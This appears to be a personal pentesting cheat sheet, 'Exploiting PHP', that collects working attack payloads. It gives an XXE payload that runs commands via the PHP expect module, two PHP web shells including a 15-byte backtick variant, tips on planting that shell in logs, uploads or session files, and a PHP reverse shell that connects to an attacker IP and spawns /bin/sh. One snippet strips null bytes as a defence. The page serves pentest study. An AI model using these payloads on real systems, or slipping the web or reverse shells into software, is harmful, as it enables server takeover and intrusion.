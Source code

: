 # Exploiting PHP

* **author**:: Nathan Acks
* **date**:: 2022-07-11

## RCE via XXE

RCE through XEE is apparently rare, but can be achieved via the PHP expect module.

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY xxerce SYSTEM "expect://id">]>
<root>&xxerce;</root>
```

* [Exploitation: XML External Entity (XXE) Injection](https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection)
* [XXE (XML External Entity) Attacks](xml-external-entity-attacks.md)

## The Poison Null Byte

PHP string parsing is susceptible to the poison null byte.

The best way to defend against these attacks is to simply sanitize strings by explicitly removing any null bytes they contain.

```php
$sanitized_string = str_replace(chr(0), '', $original_string);  
```

* [Common PHP attacks: Poison Null Byte](https://defendtheweb.net/article/common-php-attacks-poison-null-byte)
* [The Poison Null Byte](poison-null-byte.md)

## Web-Based RCE

```php
<?php
	echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>";
?>
```

A slightly spruced-up version of this is available on Kali Linux as `/usr/share/webshells/php/simple-backdoor.php`.

On space-constrained systems, you can compact this down to just 15 bytes:

```php
<?=`$_GET[1]`?>
```

### Relevant Twitter Thread

[Did you know the shortest payload to achieve code execution in PHP is only 15 bytes long ? 🤯 If you can inject it in a page on the site you will achieve remote code execution! This is really useful in BugBounty or pentest when you have a limited input size. (Podalirius) (Twitter)](https://twitter.com/podalirius_/status/1488921781637365771)

[To trigger the code execution, you have to find a way to access your injected page (direct access or inclusion) and add this GET parameter to the URL: http://localhost:8000/rce.php?1=id (Podalirius) (Twitter)](https://twitter.com/podalirius_/status/1488921786515435520)

[This payload can be used to be reflected in many files on a web application, for example you can put it: (1) In metadata, (2) somewhere in the logs, (3) in an uploaded file that you control, (4) in your PHP session (it will be written to a file) (Podalirius) (Twitter)](https://twitter.com/podalirius_/status/1488921788742569987)

## Reverse Shell

Check out `/usr/share/webshells/php/php-reverse-shell.php` on Kali Linux. Note that this only works on UNIX-like systems.

Alternately, a *very* simple shell (suitable for running at the command line):

```php
$attacker_ip = "10.0.0.1";
$attacker_port = 1234;

$sock = fsockopen($attacker_ip, $attacker_port);

exec("/bin/sh -i <&3 >&3 2>&3");
```

Catch it with netcat or socat.
